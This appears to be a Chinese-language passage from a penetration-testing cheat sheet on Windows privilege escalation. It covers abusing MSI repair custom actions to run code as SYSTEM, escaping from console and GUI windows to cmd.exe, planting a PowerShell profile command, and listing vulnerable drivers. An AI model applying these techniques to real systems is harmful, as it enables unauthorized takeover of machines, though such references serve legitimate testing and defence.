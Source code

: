 ### 自定义操作

> MSI中的自定义操作允许开发人员在安装过程中的各个点指定要运行的脚本或可执行文件

* [mgeeky/msidump](https://github.com/mgeeky/msidump) - 一个分析恶意MSI安装包、提取文件、流、二进制数据并集成YARA扫描器的工具。
* [activescott/lessmsi](https://github.com/activescott/lessmsi) - 一个查看和提取Windows安装程序(.msi)文件内容的工具。
* [mandiant/msi-search](https://github.com/mandiant/msi-search) - 该工具简化了红队操作员和安全团队识别哪些MSI文件对应哪些软件的任务，使他们能够下载相关文件。

枚举机器上的产品

```ps1
wmic product get identifyingnumber,name,vendor,version
```

使用`/fa`参数执行修复过程以触发CustomActions。我们可以使用IdentifyingNumber `{E0F1535A-8414-5EF1-A1DD-E17EDCDC63F1}`或安装程序的路径`c:\windows\installer\XXXXXXX.msi`。修复将以NT SYSTEM账户运行。

```ps1
$installed = Get-WmiObject Win32_Product
$string= $installed | select-string -pattern "PRODUCTNAME"
$string[0] -match '{\w{8}-\w{4}-\w{4}-\w{4}-\w{12}}'
Start-Process -FilePath "msiexec.exe" -ArgumentList "/fa $($matches[0])"
```

MSI安装程序中的常见错误：

* 缺少安静参数：它将生成`conhost.exe`作为`NT SYSTEM`。使用`[CTRL]+[A]`选择其中的某些文本，它将暂停执行。
  * conhost -> 属性 -> "遗留控制台模式" 链接 -> Internet Explorer -> CTRL+O –> cmd.exe
* 直接操作的GUI：打开一个URL并启动浏览器，然后使用相同的场景。
* 从用户可写路径加载的二进制文件/脚本：您可能需要赢得竞态条件。
* DLL劫持/搜索顺序滥用
* 缺少PowerShell `-NoProfile`：将自定义命令添加到您的配置文件中

```ps1
new-item -Path $PROFILE -Type file -Force
echo "Start-Process -FilePath cmd.exe -Wait;" > $PROFILE
```

## EoP - 不安全的GUI应用程序

作为SYSTEM运行的应用程序，允许用户生成CMD或浏览目录。

示例："Windows帮助和支持"（Windows + F1），搜索"命令提示符"，点击"点击打开命令提示符"

## EoP - 评估易受攻击的驱动程序

查找加载的易受攻击的驱动程序，我们通常没有花足够的时间来查看这个：

* [Living Off The Land Drivers](https://www.loldrivers.io/) 是一个精选的Windows驱动程序列表，被敌手用来绕过安全控制并进行攻击。该项目帮助安全专业人士保持了解并减轻潜在威胁。

* 本机二进制文件：DriverQuery.exe

  ```powershell
  PS C:\Users\Swissky> driverquery.exe /fo table /si
  模块名称  显示名称           驱动类型   链接日期
  ============ ====================== ============= ======================
  1394ohci     1394 OHCI兼容主机控制器内核        12/10/2006 4:44:38 PM
  3ware        3ware                  内核        5/18/2015 6:28:03 PM
  ACPI         微软ACPI驱动程序  内核        12/9/1975 6:17:08 AM
  AcpiDev      ACPI设备驱动程序    内核        12/7/1993 6:22:19 AM
  acpiex       微软ACPIEx驱动程序内核        3/1/2087 8:53:50 AM
  acpipagr     ACPI处理器聚合内核        1/24/2081 8:36:36 AM
  AcpiPmi      ACPI功率表驱动程序内核        11/19/2006 9:20:15 PM
  acpitime     ACPI唤醒警报驱动程序内核        2/9/1974 7:10:30 AM
  ADP80XX      ADP80XX                内核        4/9/2015 4:49:48 PM
  <SNIP>
  ```
